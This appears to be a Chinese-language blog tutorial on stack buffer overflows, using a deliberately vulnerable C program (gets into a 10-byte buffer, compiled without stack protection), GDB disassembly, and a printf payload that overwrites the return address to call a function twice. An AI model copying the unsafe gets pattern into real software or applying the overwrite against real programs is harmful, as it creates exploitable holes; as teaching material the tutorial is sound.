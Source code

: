 ```yaml
---
layout: post
title:  "Stack Over Flow 初探"
date:   2016-01-09 19:53:44
author: sunrainchy
categories: ShellCode
image: http://blog-data.chenhongyu.cn/blog-data/2016.01.09/hacker.jpg@600w_600h
---
```

从一次实践来了解什么是StackOverFlow，从一段简单的C语言代码入手。
cat exploit.c 
{% highlight ruby %}
void fun_1(void) 
{ 
    printf("This is fun 1\n"); 
    char buffer[10]; 
    gets(buffer); 
} 
int main() 
{ 
    fun_1(); 
}
{% endhighlight %}
保存为：exploit.c

cc -mpreferred-stack-boundary=2 -ggdb exploit.c -o exploit -fno-stack-protector 
-fno-stack-protector 告诉gcc我们不想一栈溢出保护机制进行编译（如果不加上实验会失败）

编译好了先用GDB看一下：
<div class="post-img">
<img class="img-responsive img-post" src="http://site-img-data.oss-cn-shanghai.aliyuncs.com/blog-data/2016.01.09/gdb-start.png"/>
</div>

执行disassemble 命令，对main函数进行反汇编
<div class="post-img">
<img class="img-responsive img-post" src="http://site-img-data.oss-cn-shanghai.aliyuncs.com/blog-data/2016.01.09/disassemble-main.png"/>
</div>

可以看到在调用完成fun_1 函数后下一条指令地址是0x0804482b

再看看fun_1 的反汇编结果
disassemble fun_1

<div class="post-img">
<img class="img-responsive img-post" src="http://site-img-data.img-cn-shanghai.aliyuncs.com/blog-data/2016.01.09/disassemble-fun-1.png"/>
</div>

分析下这段汇编代码：
{% highlight ruby %}
Dump of assembler code for function fun_1: 
   0x08048404 <+0>: push   %ebp                                    // 基栈寄存器入站，保存
   0x08048405 <+1>: mov    %esp,%ebp                          // 用当前栈顶作为基栈地址
   0x08048407 <+3>: sub    $0x10,%esp                           // 给char buffer[10]; 在栈上分配地址，注意这里分配了16个字节，注意Linux平台栈是从高地址向低地址延伸的
   0x0804840a <+6>: movl   $0x8048500,(%esp)              
   0x08048411 <+13>:    call   0x8048320 <puts@plt>   // 调用printf 输出
   0x08048416 <+18>:    lea    -0xa(%ebp),%eax            // 找到正确的位置进行串的输入
   0x08048419 <+21>:    mov    %eax,(%esp) 
   0x0804841c <+24>:    call   0x8048310 <gets@plt>    //调用gets 输入
   0x08048421 <+29>:    leave  
   0x08048422 <+30>:    ret    

{% endhighlight %}

在这里我们可以设置两个断点，看看此函数返回main 函数下一条指令地址是不是0x0804482b：

{% highlight ruby %}
(gdb) break *0x08048422 
Breakpoint 1 at 0x8048422: file exploit.c, line 7. 

{% endhighlight %}
在最后ret 指令出停止

<div class="post-img">
<img class="img-responsive img-post" src="http://site-img-data.oss-cn-shanghai.aliyuncs.com/blog-data/2016.01.09/print-esp.png"/>
</div>

看第一行，找到0x0804482b了吧

下面通过栈溢出篡改函数返回执行地址，我们可以看到此函数返回执行地址是 0x0804482b
让我们让程序再调用一次fun_1 函数：
从 disassemble main 可以看到调用fun_1 的时候是这个地址 0x08048426
那我们就将函数返回执行地址篡改成这个：

printf "AAABBBCCCDDDDD\x26\x84\x04\x08" | ./exploit
This is fun 1 
This is fun 1 

输出两个 ”This is fun 1 ” 演示成功

为啥是14个字符后接地址而不是10个呢，原因是基栈寄存器入栈了0x08048404 <+0>:  push   %ebp 
，要将这四个也算上。



